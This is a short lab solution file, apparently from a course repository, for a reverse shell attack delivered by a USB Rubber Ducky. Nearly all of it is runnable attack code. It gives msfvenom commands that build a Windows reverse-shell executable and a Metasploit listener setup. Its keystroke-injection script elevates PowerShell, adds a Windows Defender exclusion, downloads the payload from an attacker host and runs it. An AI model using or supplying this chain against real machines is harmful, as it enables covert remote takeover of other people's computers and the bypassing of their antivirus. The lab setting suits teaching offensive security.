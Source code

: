### Solutions of the Lab 2 - Reverse Shell Attack - USB Rubber Ducky

## Setting up host machine

###Install Metasploitable

```

sudo apt install curl gnupg2
curl https://apt.metasploit.com/metasploit-framework.gpg.key | gpg --dearmor > metasploit-framework.gpg
sudo mv metasploit-framework.gpg /etc/apt/trusted.gpg.d/
echo "deb https://apt.metasploit.com/ jessie main" | sudo tee /etc/apt/sources.list.d/metasploit-framework.list
sudo apt update
sudo apt install metasploit-framework

```

### Payload and other necessary steps
```
sudo python3 -m http.server 80
sudo ufw allow 4444/tcp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.16 LPORT=4444 -f exe > payload.exe
```

### Metasploitable

Open with ```msfconsole``` and then:
```
use exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set LHOST 192.168...
set LPORT 4444
exploit
```

### Rubber ducky code

Replace the IP with the IP of the host
```
DELAY 5000
GUI r
DELAY 550
STRING powershell "start-process wt -verb runas" 
ENTER
DELAY 4500
LEFT
ENTER
DELAY 4400

STRING $dir = "C:/temp" 
ENTER
STRING $shell = "$dir/shell.exe" 
ENTER
DELAY 550

STRING Add-MpPreference -ExclusionPath $dir
ENTER
DELAY 950

STRING if (-Not (Test-Path $dir)) { New-Item -ItemType Directory -Path $dir }
ENTER
DELAY 900

STRING Invoke-WebRequest -Uri http://192.168.100.17/payload.exe -OutFile $shell
ENTER
DELAY 10000

REM |===Run .exe and set up Staged TCP reverse shell===|
STRING Start-Process $shell
ENTER
DELAY 950
```
